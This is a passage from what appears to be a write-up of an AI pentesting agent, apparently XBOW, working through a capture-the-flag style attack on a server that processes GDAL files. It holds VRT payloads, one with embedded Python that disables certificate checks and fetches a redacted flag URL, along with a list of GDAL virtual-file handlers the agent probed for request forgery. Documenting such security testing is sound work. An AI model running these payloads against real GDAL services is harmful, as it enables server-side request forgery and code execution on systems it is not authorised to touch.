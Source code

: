 ```
      <DstRect xOff="0" yOff="0" xSize="1" ySize="1" />
    </SimpleSource>
  </VRTRasterBand>
</VRTDataset>
```

![](https://xbow.com/sparkle-white.webp)

This VRT file was successfully recognized by the server (receiving a 200 OK response), confirming that GDAL could process VRT files and had likely attempted to access the referenced flag URL.

#### Exploring the GDAL Ecosystem

XBOW was on step 21 at this point. At this point, XBOW started using its deep knowledge of GDAL’s capabilities and systematically tested various Virtual File System (VFS) modules such as:

- `/vsihttp/`: An alternative to `/vsicurl/` without cURL dependencies
- `/vsicurl_streaming/`: A streaming variant that might handle SSL differently
- `/vsizip/` and `/vsitar/`: For compressed archive handling
- `/vsimem/`: For in-memory file operations
- `/vsiwebhdfs/` and `/vsistdin/`: Additional specialized handlers

During the following steps XBOW also experimented with embedding Python code within VRT files:

```
<VRTDataset rasterXSize="1" rasterYSize="1">
  <Metadata>
    <MDI key="PYTHON_SCRIPT">
import urllib.request
import ssl

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

try:
    response = urllib.request.urlopen('https://[REDACTED]/', context=ctx)
    flag_content = response.read().decode('utf-8')
    print(f"FLAG CONTENT: {flag_content}")
    import gdal
    ds = gdal.GetDriverByName('MEM').Create('', 1, 1, 1)
    ds.SetMetadataItem('FLAG', flag_content)
except Exception as e:
    print(f"Error: {e}")
    import gdal
    ds = gdal.GetDriverByName('MEM').Create('', 1, 1, 1)
    ds.SetMetadataItem('ERROR', str(e))
    </MDI>
  </Metadata>
  <VRTRasterBand dataType="Byte" band="1">
    <PythonSource>
      import numpy as np
      def raster_function(in_ar, out_ar, xoff, yoff, xsize, ysize, raster_xsize, raster_ysize, r, gt, **kwargs):
          out_ar.fill(1)
          return 0
    </PythonSource>
  </VRTRasterBand>
</VRTDataset>
```
